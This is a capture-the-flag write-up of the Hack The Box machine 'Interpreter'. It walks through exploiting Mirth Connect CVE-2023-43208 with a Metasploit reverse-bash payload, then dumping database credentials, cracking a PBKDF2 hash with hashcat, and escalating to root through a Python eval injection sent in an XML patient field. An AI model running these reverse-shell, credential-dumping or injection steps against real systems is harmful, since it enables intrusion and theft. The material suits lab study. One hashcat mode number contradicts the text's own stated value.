{HackTheBox_Machine_WriteUp}

---


| Machine Name | Interpreter    |
| ------------ | -------------- |
| OS           | Linux          |
| Difficulty   | Medium         |
| IP Address   | 10.129.244.184 |
| Release Date | 21 FEB 2026    |
| Pwned Date   | 22 FEB 2026    |

---
#### Table of Contents 

##### 1. Executive Summary
##### 2. Reconnaissance
   ###### 2.1  Port Scanning
   ###### 2.2.  Web Enumeration 
##### 3. Initial Access / Foothold
##### 4. Lateral Movement  (if applicable)
##### 5. Privilege Escalation
##### 6. Proof's
##### 7. References


---

#### 1. Executive Summary

This report documents the penetration testing process of the "Interpreter"machine from Hack The Box.The objective was to identify vulnerabilities and exploit them to achieve full system compromise (user + root).

This machine is hosting a Mirth Connect Administrator Application which have vulnerable version installed.We will see how to exploit that vulnerability to get user shell on server and escalate our privilege further to root.


---

#### 2. Reconnaissance

##### 2.1 Port Scanning :-

```
sudo nmap -sC -sV -p- 10.129.244.184 --min-rate 3000 -oN nmap_scan
```

Open Port's Found :  22 | 80 | 443  | 6661

##### 2.2 Web Enumeration :-

I have enumerated port 80. On the website i found the Mirth Connect Administrator application.Their is a Launch Mirth Connect Administrator options is their it download's  webstart.jnlp file which leaks the application version.

Version Detected : Mirth Connect Administrator 4.4.0

---

#### 3. Initial Access

The found version of Mirth Connect is vulnerable to the Remote Code Execution having CVE on internet CVE-2023-43208. Rapid 7 have the module which automate the full exploit chain for us.We will using that.

```
### Use this module
exploit/multi/http/mirth_connect_cve_2023_43208

set RHOST 10.129.244.184
set RPORT 443
set SSL TRUE
set LHOST 10.10.15.139
set LPORT 4444
set PAYLOAD cmd/unix/reverse_bash
exploit

```

**We have got the shell as "mirth" Now.**

---

#### 4. Lateral Movement

First thing to do, we have used wget to pull linpeas.sh file on server.Linpeas.sh show that user have created some files which are executable by checking that files.I have found database cred's in file called  /usr/local/mirthconnect/conf/mirth.properties.

Finding's :
```
Database url : jdbc:mariadb//localhost:3306/mc_bdd_prod

database username : mirthdb
database password : MirthPass123!

```

We will use this to connect to mysql server running on server.

```
mysql -u mirthdb -p 'MirthPass123!' mc_bdd_prod -e 'show tables;'

mysql -u mirthdb -p 'MirthPass123!' mc_bdd_prod -e 'select * from PERSON'

mysql -u mirthdb -p 'MirthPass123!' mc_bdd_prod -e 'select * from PERSON_PASSWORD'
```


Finding's : 
user : sedric
hash : u/+LBBOUnadiyFBsMOoIDPLbUR0rk59kEkPU17itdrVWA/kLMt3w+w==

This is something Encryption here. We will go to Mirth Connect git hub to find what type of encryption they use for storing password.

GitHub gives us information about how this hash got generated.

```
    public static final int DEFAULT_SALT_SIZE = 8;
    public static final int DEFAULT_ITERATIONS = 600000;
    public static final int DEFAULT_KEY_SIZE_BITS = 256;

    private String algorithm = "PBKDF2WithHmacSHA256";
```

Gemini Helps us to get salt and base64 string from this :

```
echo 'u/+LBBOUnadiyFBsMOoIDPLbUR0rk59kEkPU17itdrVWA/kLMt3w+w==' | base64 -d | tail -c 32 | base64  > hash

echo 'u/+LBBOUnadiyFBsMOoIDPLbUR0rk59kEkPU17itdrVWA/kLMt3w+w==' | base64 -d | head -c 8 | base64  > salt
```

Updated Hash for cracking : sha256:600000:u/+LBBOUnac=:YshQbDDqCAzy21EdK5OfZBJD1Ne4rXa1VgP5CzLd8Ps=


We are cracking the  "PBKDF2WithHmacSHA256" hash.As mentioned in the hashcat example-hashes it hash a code 10900.


Cracking it :

```
hashcat -a 0 -m 109000 hash /usr/share/seclists/rockyou.txt
```

Password Found : **snowflake1** for User :  **sedric**

Now, ssh into user sedric using this creds.


**User.txt flag found.**

---

#### 5. Privilege Escalation

Using Linux checklist to find any privilege escalation.
```
ps aux | grep root
```
above command give many results but from them,

/usr/local/bin/notify.py is interesting as it own by user sedric.

Analyzing the code with gemini found that, the template function where user input is passed into and eval () call is most server flaw.

The code used eval(f"f'''{template}'''") to render a formatted string.

Although there is a regex filter re.compile(r"^[a-zA-Z0-9._'\"(){}=+/]+$"), it is dangerously permissive. It allows characters such as parentheses (), quotes ', ", and the assignment operator = .

An attacker can craft a payload within one of the patient fields (like firstname or lastname) that escapes the f-string context and executes arbitrary Python commands.

	Crafting Payload to get rce on server.

```
curl -X POST http://127.0.0.1:54321/addPatient -H "Content-Type: application/xml" -d "<patient><firstname>{open('/root/root.txt').read()}</firstname><lastname>Doe</lastname><sender_app>Mirth</sender_app><timestamp>2026.02.22</timestamp><birth_date>01/01/2000</birth_date><gender>M</gender></patient>"
```

On server curl is not present so,
First we will forward port 54321 from our attack box to server port 54321 using ssh.

```
ssh -L 54321:127.0.0.1:54321 sedric@10.129.244.184
```

Then you can get root flag.

**Obtained Root.txt flag.** 

---

#### 6. Proof's































---

#### 7. References

https://www.rapid7.com/db/vulnerabilities/nextgen-mirth-connect-cve-2023-43208/
https://github.com/nextgenhealthcare/connect/blob/development/core-util/src/com/mirth/commons/encryption/Digester.java


---

{HackTheBox_Machine_WriteUp}
